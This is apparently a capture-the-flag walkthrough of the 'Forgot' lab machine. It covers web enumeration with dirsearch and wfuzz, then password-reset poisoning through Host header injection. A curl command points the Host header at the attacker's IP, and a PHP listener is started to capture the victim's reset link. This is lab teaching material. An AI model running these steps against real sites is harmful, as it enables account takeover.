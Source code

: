 ```bash
/home      302
/tickets   302
/forgot    200
/reset     200

# with dirsearch
dirsearch -u http://10.10.11.188/ -t 30 -r
#--snip--#
/forgot   200
/home     302
/login    200
/reset    200       

# with wfuzz
wfuzz -z file,/usr/share/seclists/Discovery/Web-Content/common.txt --hc 404 -t 50 http://10.10.11.188/FUZZ
#--snip--#
/home    302
/login   200
/forgot  200
/tickets 302
```

##### Exploration
Tried several manual passwords using admin username with no result. Started Burp suite, investigated the site and discovered the comment, `<!-- Q1 release fix by robert-dev-87120 -->`, which appears to be populated dynamically. Copied the exact username for a specific session and again tried several passwords to gain entrance but was unsuccessful. Then used the 'forgot the password' in order to reset this particular user's password.

![Reset Password](/images/forgot/forgot01.png "Reset Password")

##### Exploitation
Our initial enumeration did not show a mail service. How can we get this link and reset this user's password and gain access to the application? Let's intercept this path in Burp suite and send to Repeater.
![Intercept Forgot URL](/images/forgot/forgot02.png "Intercept Forgot URL")

Could this application be vulnerable to [password reset poisoning?](https://www.invicti.com/learn/password-reset-poisoning/) Investigated and found that the site was [Host header injectible](https://www.invicti.com/learn/host-header-attacks/). Let's redirect the password reset request to our attacking machine so that once the user clicks the link sent to their email we grab the request.
```shell
curl -s -I http://10.10.11.188 -H 'Host: 10.10.14.87'   # verify Host header injection
#--snip--#
HTTP/1.1 302 FOUND
Server: Werkzeug/2.1.2 Python/3.8.10
Date: Sat, 18 Mar 2023 06:36:12 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 223
Location: http://10.10.14.87
X-Varnish: 33339
Age: 0
Via: 1.1 varnish (Varnish/6.2)
Connection: keep-alive
```
This application blindly trusts the client-controlled Host header input against using the server-controlled Server_Name header. Thus we set up a server or listener and intercept the reset link.
```shell
# start a local server and repeat the request on Burp with your local server endpoint as the Host value. see forgot03
php -S 10.10.14.87:8001 

# you can alternatively send a request using the terminal
```